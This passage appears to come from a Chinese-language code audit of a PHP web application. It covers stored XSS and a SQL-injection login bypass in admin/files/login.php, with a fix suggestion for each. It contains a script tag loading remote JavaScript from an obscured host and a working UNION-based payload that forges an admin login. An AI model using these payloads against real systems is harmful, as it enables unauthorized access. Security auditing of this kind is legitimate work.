<script src=”http://xx.xxx.xx..xx/xx.js”></script>

**修复建议:**

同样使用 htmlentities 对输出的内容进行实体编码

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5JI4sKyrsoECoN0T7Lhr5kHM3B43mxL4GUS5ZxFC8NkKRBTKUvkyiagcxVufCShBqc9YFdZ04bIWw/640?wx_fmt=png)

在修改密码的时候加上效验, 添加一个原密码的验证, 原密码是从数据库中取出来的 password 的 md5, 对输入的 md5 进行比对

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5JI4sKyrsoECoN0T7Lhr5kUzlLlHiaGsJrQnLb46YXEjUkvTZkbwQawwicxcdsFx5MjxrnP3l9JNFA/640?wx_fmt=png)

**0x006** **万能密码:**
===================

**漏洞分析:**

漏洞位置 admin/files/login.php

user 没有做过滤直接插入到 sql 语句中去查询对比, 正常的万能密码这样的, 这显然是不同的, 查看一下 sql 语句

Select user\_id,user\_type,email From users Whereuser\_id=user And password=pass

我们在从数据库中查询密码的时候没有将 password 参数拼接在后面的 sql 语句中, 数据库中存储的 password 是 md5 加密的, 所以就要考虑是否可以进行绕过

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5JI4sKyrsoECoN0T7Lhr5kTTax5gKy1ichG7RcSuqT7U3RBMHjGu6Ig7QVYaQv0QAicyAiaWqJHfwGw/640?wx_fmt=png)

此时 user 没有经过过滤直接拼接进入数据库中查询, password 的 md5 的判断是从数据库中取出来的值和输入的值是否相同, 我们可以进行伪造账号密码来进行登录

**payload:**

```
user: 1' union select 1,2,3,'c4ca4238a0b923820dcc509a6f75849b',5,6,7,8#
password:1
```

在第四个位置是一串 md5,md5 的值 = 1, 第四个位置的 md5 值必须是 password 的 md5 值, 此方法就等于伪造了一个管理员账号进行登录, 这是正常查询管理员登录的表

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5JI4sKyrsoECoN0T7Lhr5kC8ibBiaicwIoicKcqT3Siam8Pj9KOrQ1ESSKDicdPgabKpicQqYk0ib8UDRqew/640?wx_fmt=png)

使用 union 的方法, 临时在 manage 下面插入临时的字段, 并且添加的值是我们可控的, 所以我们插入我们的 payload 就是通过传入新的 md5 加密后的 password, 达到绕过的效果

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5JI4sKyrsoECoN0T7Lhr5k8VEuT4uKiaUBNQCbVuEJ89KictibmAZNiaVwOUYIxZtVp4AEoSFpOGKoSg/640?wx_fmt=png)

根据之前发现的 sql 注入发现此处也是存在 sql 注入的, 就不再多说

**修复建议:**

对 user 传入的参数进行一个过滤, 跟之前 sql 注入做的防御是一样的, 在外部创建一个 php 文件直接 include 调用也可以

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW5JI4sKyrsoECoN0T7Lhr5kjFkPwnj0mPVn8Idu4qjeQZa4GaASv7eOtLXnvPExM4l6gCbP4xUY1Q/640?wx_fmt=png)

**打个小广告![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHqDK7nUt0r4cTMowP5rvmPQaCXibNQ4y03aSkE9BmDJqVTyVou7gTbjfk7cKbC3JhkhZrzicDeH9YQ/640?wx_fmt=png)有兴趣的师傅可以看看哈![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHqDK7nUt0r4cTMowP5rvmPscoI4OdjibvGlBm1L9xG4mqGiciaZicfx5y7DCXSSFfGGxQL2Vy97A9dMg/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHqDK7nUt0r4cTMowP5rvmPme34QalaeD5n8fQbhfcMzdwZqF9so02f7IztPemY1mUTUlibPzTaWuw/640?wx_fmt=png)
